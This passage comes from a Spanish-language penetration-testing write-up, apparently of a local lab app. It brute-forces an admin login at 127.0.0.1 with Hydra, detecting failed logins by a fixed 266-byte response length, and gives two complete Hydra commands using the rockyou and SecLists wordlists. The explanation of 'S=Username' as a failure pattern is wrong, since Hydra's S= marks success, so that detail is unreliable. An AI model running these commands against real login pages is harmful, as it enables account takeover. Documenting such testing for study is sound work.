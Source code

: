 La captura muestra cómo Hydra detecta intentos fallidos según el mensaje de error devuelto por la aplicación.



##### 2. Fuerza Bruta sobre Panel Admin `/admin/index.php?page=login`

**Problema detectado:**  
El panel de administración **no muestra un mensaje de error claro** para logins inválidos. En el navegador, los campos se recargan en blanco sin indicar si el usuario o la contraseña son incorrectos.

**Confirmación en BurpSuite:**  
La longitud del contenido siempre es **266 bytes** ante un login fallido, lo que permite usar Hydra con condición de longitud:

![BruteForce User](/assets/images/posts/atrium-desarrollo/burprespon.png)

**Comando Hydra usando longitud de respuesta:**

`hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \ -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8888 \ http-post-form "/admin/index.php?page=login:adminname=^USER^&password=^PASS^:F=266" -V`

**Comando Hydra alternativo usando patrón de contenido fijo:**

`hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \ -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8888 \ http-post-form "/admin/index.php?page=login:adminname=^USER^&password=^PASS^:S=Username" -V`

**Notas:**

- `-L` → Lista de usuarios.    
- `-P` → Lista de contraseñas.    
- `-s 8888` → Puerto del servicio.    
- `F=266` → Fallo detectado por longitud de respuesta.    
- `S=Username` → Patrón de contenido para fallo, más estable que longitud.    
- `-V` → Modo verbose.    
